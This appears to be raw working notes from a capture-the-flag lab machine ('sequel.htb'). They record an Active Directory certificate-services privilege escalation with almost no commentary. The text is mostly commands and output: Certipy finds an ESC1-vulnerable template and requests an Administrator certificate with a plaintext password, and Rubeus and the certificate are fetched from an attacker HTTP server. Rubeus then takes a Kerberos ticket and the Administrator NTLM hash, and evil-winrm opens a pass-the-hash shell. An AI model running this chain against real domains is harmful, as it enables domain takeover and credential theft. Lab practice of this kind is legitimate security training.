 certipy find -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.10.11.202


```
certipy find -vulnerable -u ryan.cooper@sequel.htb -p 'NuclearMosquito3'
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[*] Got CA configuration for 'sequel-DC-CA'
[*] Saved BloodHound data to '20230616232039_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20230616232039_Certipy.txt'
[*] Saved JSON output to '20230616232039_Certipy.json'
```


cat 20230616232039_Certipy.txt 

```
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : 16777216
                                          65536
                                          ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```


Request an enrollment agent certificate
certipy req -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -ca 'sequel-DC-CA' -template 'UserAuthentication' -dc-ip 10.10.11.202 -upn Administrator 
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

certipy req -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -ca 'sequel-DC-CA' -template 'UserAuthentication' -dc-ip 10.10.11.202 -upn Administrator
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 14
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
[Jun 16, 2023 - 23:34:54 (CEST)] exegol-htb /workspace # certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'sequel.htb' -dc-ip 10.10.11.202
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)


cp /opt/resources/windows/SharpCollection/NetFramework_4.7_x64/Rubeus.exe .
updog

iwr -uri http://10.10.14.2:9090/Rubeus.exe -outfile  c:\Users\ryan.cooper\Documents\Rubeus.exe
iwr -uri http://10.10.14.2:9090/administrator.pfx -outfile  c:\Users\ryan.cooper\Documents\administrator.pfx

```
./Rubeus.exe asktgt /user:Administrator /certificate:administrator.pfx  /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.cooper
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\Administrator'
[*] Using domain controller: fe80::e144:67c2:7ade:2ece%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/sequel.htb
  ServiceRealm             :  SEQUEL.HTB
  UserName                 :  Administrator
  UserRealm                :  SEQUEL.HTB
  StartTime                :  6/16/2023 10:51:12 PM
  EndTime                  :  6/17/2023 8:51:12 AM
  RenewTill                :  6/23/2023 10:51:12 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  rc4_hmac
  Base64(key)              :  J0LbjQSV5qq5EJn+PVPMsA==
  ASREP (key)              :  3116F51FE513498AE74F1762D9FD3F36
```


```

./Rubeus.exe asktgt /user:Administrator /certificate:administrator.pfx  /ptt /getcredentials

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.cooper
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\Administrator'
[*] Using domain controller: fe80::e144:67c2:7ade:2ece%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/sequel.htb
  ServiceRealm             :  SEQUEL.HTB
  UserName                 :  Administrator
  UserRealm                :  SEQUEL.HTB
  StartTime                :  6/16/2023 10:52:32 PM
  EndTime                  :  6/17/2023 8:52:32 AM
  RenewTill                :  6/23/2023 10:52:32 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  rc4_hmac
  Base64(key)              :  VQgyu+8BIggWhO6En2GFOA==
  ASREP (key)              :  646D5DE8C7A24836989146C1EFFD0A7C

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE
```


evil-winrm -i 10.10.11.202 -u Administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE

                      
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

